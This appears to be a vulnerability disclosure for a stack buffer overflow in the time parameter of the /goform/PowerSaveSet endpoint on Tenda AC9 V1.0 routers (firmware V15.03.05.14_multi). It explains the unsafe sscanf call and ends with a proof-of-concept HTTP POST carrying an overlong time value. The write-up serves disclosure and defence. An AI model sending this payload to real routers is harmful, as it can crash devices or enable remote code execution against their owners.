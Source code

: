 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the time parameter of route /goform/PowerSaveSet has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the setSmartPowerManagement function in Tenda AC9 V1.0 firmware V15.03.05.14_multi.This function accepts the time parameter from a POST request by variable s.However, since the user has control over the input of time, and sscanf() simply parses the data in the format specified by format and stores it directly into the target variable，the statement "sscanf(v24, "%[^:]:%[^-]-%[^:]:%s", &v20, &v18, &v16, &v14);  " may leads to a buffer overflow.  The user-supplied time can exceed the capacity of the  v6  array, thus triggering this security vulnerability.

![img](./img/PowerSaveSet.png)

## Poc
```py
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

time=00:10-1:8888888888888888888888888888888888888888888888888888888
```
